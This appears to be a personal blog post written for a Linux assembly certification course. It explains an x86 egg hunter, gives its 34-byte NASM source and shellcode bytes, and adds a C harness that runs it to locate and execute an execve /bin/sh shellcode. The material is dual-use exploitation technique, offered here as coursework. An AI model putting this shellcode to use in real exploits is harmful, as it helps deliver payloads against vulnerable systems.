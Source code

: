 ```yaml
---
comments: true
date: 2014-04-09
layout: post
title: 'SLAE Assignment 3: EggHunter Demo'
categories:
- programming
- SLAE
tags:
- asm-x86
- nasm
- slae
---
```


This is the third of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Study about EggHunter
	
  2. Make a working demo
	
  3. Make it configurable for different payload

An EggHunter is a small piece of code that search to a pattern (the egg) into the memory and once the pattern is found the shellcode will be executed. Tipically the egg is wrote twice, this to avoid the problem of finding an identical sequence in some other part of the memory.

The following is a PoC of an EggHunter:

```c    
unsigned char egghunter[] = "egghunter shellcode"
unsigned char shellcode[] = \
"egg"
"egg"
"execve /bin/sh shellcode"

int main(void){
    run(egghunter);
    return 0;
}
```

This is the complete shellcode:

```nasm    
;Description:	Assignment #3 (EggHunter, 34 bytes)
;Shellcode:		\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0
;Author: 		Paolo Stivanin <https://github.com/polslinux>
;SLAE ID:		526

global _start
section .text
_start:
	fldz
	fstenv [esp-0xc]
	pop eax
lp1:
	inc eax
	xor ebx,ebx
	mov cl,2
lp2:
	cmp dword [eax+ebx],0xddccbbaa
	jne lp1
	add ebx,4	;the egg must be found twice so i check eax and eax+4
	dec cl		;this is a counter to track how many times the egg has been found
	jnz lp2
	lea eax,[eax+8]	;if the egg has been found then jmp into the shellcode
	jmp eax
```

In this shellcode I didn't use the jmp-call-pop technique (which is more ids friendly) but instead I used two FPU instructions:

  * `fldz` to push +0.0 onto the FPU register stack
	
  * `fstenv [esp-0xc]` to save the current FPU operating environment at the specified memory location
	
  * and then `pop eax` . Now `eax` contains the address offldz

The following is the graph of the egghunter shellcode flow:

[![graph_assign3]({{ site.baseurl }}/images/2014/04/graph_assign3-1024x601.png)]({{ site.baseurl }}/images/2014/04/graph_assign3.png)

This is the C source file:

```c    
/* Description:	EggHunter(execve(/bin/sh))
 * Author:	Paolo Stivanin <https://github.com/polslinux>
 * SLAE ID:	526
 */

#include <stdio.h>
#include <string.h>

unsigned char eggHunter[] = \
"\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0";

unsigned char execveShellcode[] = \
"\xaa\xbb\xcc\xdd" //egg
"\xaa\xbb\xcc\xdd" //egg
"\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

int main(void){
	printf("EggHunter: %zu\n", strlen(eggHunter));
	printf("Shellcode: %zu\n", strlen(execveShellcode));
	int (*ret)() = (int(*)())eggHunter;
	ret();
	return 0;
}
```

and the following is the result of the above snippet:

[![assign3]({{ site.baseurl }}/images/2014/04/assign3-1024x552.png)]({{ site.baseurl }}/images/2014/04/assign3.png)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**

